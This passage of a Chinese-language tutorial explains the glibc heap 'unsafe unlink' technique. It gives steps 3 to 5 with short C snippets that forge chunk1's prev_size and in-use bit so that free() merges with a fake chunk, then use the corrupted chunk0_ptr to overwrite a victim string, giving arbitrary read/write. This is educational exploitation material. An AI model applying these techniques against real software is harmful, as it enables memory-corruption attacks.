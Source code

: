 3.修改chunk1的pre_chunk_size字段和size字段，以便于在free(chunk1)的时候，可以合并上面构造的那个伪块

```c
      header_size = 2
      uint64_t *chunk1_hdr = chunk1_ptr - header_size;
      chunk1_hdr[0] = malloc_size; //上一个堆块的大小，就是伪块的大小
      chunk1_hdr[1]&=~1;  //末位清零，最后一位为零表示上一个堆块是free状态，可以和它合并
```

   ![http://pic.wonderkun.cc/uploads/2017/12/5.png](http://pic.wonderkun.cc/uploads/2017/12/5.png)

   最后完整的布局图如下：

   ![http://pic.wonderkun.cc/uploads/2017/12/6.png](http://pic.wonderkun.cc/uploads/2017/12/6.png)
 4.在free(chunk1_ptr)之后，chunk0_ptr指向了&chunk0_ptr-3的地方

   ![http://pic.wonderkun.cc/uploads/2017/12/7.png](http://pic.wonderkun.cc/uploads/2017/12/7.png)

5.漏洞证明

```c
         chunk0_ptr[3] = (uint64_t) victim_string //其实就是chunk0_ptr[3] = &victim_string 
         chunk0_ptr[0] = 0x4141414142424242LL;
         printf("New Value: %s\n",victim_string);
```
         
修改chunk0_ptr[3]的值其实是在修改chunk0_ptr[3]指向的位置，让它指向vimtim_string.

然后修改chunk0_ptr[0]就修改了vimtim_string字符串本身。

也就是说我们通过修改chunk0_ptr[3]的值为我们想要修改的地址，就可以实现任意地址读写操作。